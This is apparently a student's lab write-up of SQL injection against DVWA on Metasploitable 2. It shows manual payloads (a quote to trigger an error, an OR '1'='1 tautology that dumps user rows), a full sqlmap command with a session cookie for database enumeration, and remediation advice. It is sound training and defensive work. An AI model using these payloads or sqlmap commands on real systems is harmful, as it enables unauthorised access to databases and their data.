

# 04 — DVWA SQL Injection (OWASP A03:2021)

## Overview

| Field | Details |
|---|---|
| **Vulnerability** | SQL Injection — GET parameter "id" |
| **OWASP Category** | A03:2021 — Injection |
| **Severity** | High |
| **Target** | DVWA on Metasploitable 2 — 192.168.1.11 |
| **URL** | http://192.168.1.11/dvwa/vulnerabilities/sqli/ |
| **DBMS** | MySQL >= 4.1 |
| **Web Stack** | Apache 2.2.8, PHP 5.2.4 |
| **Tools** | Manual browser testing, SQLMap 1.10.6 |
| **Date** | August 23, 2026 |

---

## Vulnerability Summary

The User ID input field in DVWA is directly concatenated into a SQL query
without sanitization or parameterization. Injecting SQL metacharacters
breaks out of the intended query context — allowing an attacker to retrieve
unauthorized data, bypass authentication, and enumerate the entire database server.

---

## Phase 1 — Manual Testing

### Step 1 — Confirm Injection Point

```
Input: 1'
Result: MySQL syntax error — confirms unsanitized input
```

Raw MySQL error returned:
> You have an error in your SQL syntax; check the manual that corresponds
> to your MySQL server version for the right syntax to use near ''1''' at line 1

---

### Step 2 — Authentication Bypass

```
Input: 1' OR '1'='1
Result: All 5 user records returned
```


Users exposed:
- admin / admin
- Gordon Brown
- Hack Me
- Pablo Picasso
- Bob Smith

The injected query becomes:
```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' OR '1'='1';
```

---

## Phase 2 — SQLMap Automated Exploitation

### Step 3 — Run SQLMap

```bash
sqlmap -u "http://192.168.1.11/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=YOUR_SESSION_ID; security=low" \
  --dbs
```



**4 injection techniques identified:**
- Boolean-based blind
- Error-based
- Time-based blind
- UNION query (2 columns)

---

### Step 4 — Database Enumeration


**7 databases enumerated:**

| Database | Significance |
|---|---|
| dvwa | App database — user credentials |
| information_schema | MySQL metadata |
| metasploit | Metasploit scan data |
| mysql | Root credentials — highest impact |
| owasp10 | OWASP WebGoat data |
| tikiwiki | CMS user accounts |
| tikiwiki195 | Legacy CMS data |

---

## Full Report

[View PDF Report](./report.pdf)

---

## Remediation

1. **Parameterized queries** — never concatenate user input into SQL
2. **Input validation** — whitelist numeric IDs, reject unexpected characters
3. **Suppress error messages** — never expose MySQL errors to the user
4. **Least privilege DB accounts** — app account should only access its own DB
5. **WAF** — ModSecurity with OWASP CRS as defence-in-depth

---

## What I Learned

- Manual SQL injection testing methodology
- How OR-based payloads bypass authentication logic
- Reading and interpreting MySQL error messages as injection confirmation
- SQLMap configuration — URL, cookies, flags (`--dbs`, `--tables`, `--dump`)
- Four SQL injection technique types and when each applies
- OWASP A03:2021 Injection category and real-world impact
- Difference between network-layer exploits (Metasploit) and web-layer exploits (SQLi)

---

[← Back to Lab Home](../README.md)